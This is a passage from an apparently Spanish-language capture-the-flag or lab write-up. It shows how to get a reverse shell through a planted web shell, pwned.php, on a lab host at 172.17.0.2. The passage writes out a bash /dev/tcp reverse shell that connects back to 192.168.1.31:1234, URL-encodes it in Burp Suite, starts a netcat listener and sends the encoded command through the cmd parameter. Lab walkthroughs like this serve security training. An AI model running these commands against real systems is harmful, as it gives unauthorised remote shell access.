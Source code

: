 

Copiamos el comando `bash -i >& /dev/tcp/192.168.1.31/1234 0>&1` y me dirijo al *burpsuite*, en la pestaña `decoder` y añadimos
```
bash -c "bash -i >& /dev/tcp/192.168.1.31/1234 0>&1"
```

<p align="center">
    <img src="../img/Pasted_image_20241215195537.png" width="500">
</p>


Copiamos el resultado de encodear la `reverse shell`
```
%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%33%31%2f%31%32%33%34%20%30%3e%26%31%22
```

y lo pegamos en el navegador, pero antes nos ponemos en la escucha con `netcat` por el puerto que indicamos en la `reverse shell`
```
nc -nvlp 1234
```

<p align="center">
    <img src="../img/Pasted_image_20241215195728.png" width="500">
</p>

y en el navegador
```
172.17.0.2/pwned.php?cmd=%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%33%31%2f%31%32%33%34%20%30%3e%26%31%22
```


Si comprobamos el `netcat`, vemos que obtuvimos una `reverse shell`.
<p align="center">
    <img src="../img/Pasted_image_20241215195858.png" width="500">
</p>
